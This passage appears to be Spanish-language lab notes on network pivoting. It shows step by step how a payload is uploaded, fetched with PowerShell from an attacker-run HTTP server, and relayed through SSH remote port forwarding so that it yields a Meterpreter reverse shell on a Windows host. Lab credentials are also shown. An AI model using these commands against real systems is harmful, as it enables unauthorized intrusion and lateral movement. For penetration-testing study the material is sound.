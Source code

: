 5. Subiremos el payload a la máquina Windows.

   * Primero subimos **backupscript.exe** al serivicio SSH: `scp backupscript.exe ubuntu@<IP Máquina>:~/`

   * Haremos **Dynamic Port Forwarding**, esto con el fin de autenticarnos en RDP

      ```bash
      ❯ ssh -D 9050 ubuntu@<IP Máquina>
      ❯ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
      ```

   * En el servicio SSH, levantamos un servidor HTTP con Python.

   * Ejecutamos **Powershel** con permisos de Administrador (`Win` + `x` -> Seleccionamos 'PowerShell Administrator'), y nos descargamos el script **backupscript.exe**: `Invoke-WebRequest -Uri "http://<IP Máquina>:<Puerto>/backupscript.exe" -Outfile "C:\backupscript.exe"`

6. Ahora, realizaremos Remote Port Forwarding para que todo el tráfico entrante de **172.16.5.19** por el puerto `8080` se redirija a nuestro puerto 8000

   * **`ssh -R 172.16.5.19 :8080:0.0.0.0:8000 ubuntu@<IP Máquina> -vN`**
     * `-v`: Veremos el **verbose** de acciones que se realizan.
     * `-N`: No queremos ejecutar ningún comando.

7. Ahora en RDP ejecutamos **backupscript.exe**

8. Ya tenemos un shell en metasploit

   ```
   meterpreter > shell
   Process 6864 created.
   Channel 1 created.
   Microsoft Windows [Version 10.0.17763.1637]
   (c) 2018 Microsoft Corporation. All rights reserved.

   C:\>whoami
   whoami
   inlanefreight\victor
   ```

---

## Meterpreter Tunneling & Port Forwarding ⏩

1. Nos autenticamos en el servicio SSH, vemos las interfaces de red

   ```
   ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.253.186  netmask 255.255.0.0  broadcast 10.129.255.255

   ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
         inet 172.16.5.129  netmask 255.255.254.0  broadcast 172.16.5.255
   ```

   * La **interfaz ens224** se encuentra en un **subred**, así que detectaremos los hosts activos

      ```
      Listando Hosts Activos...

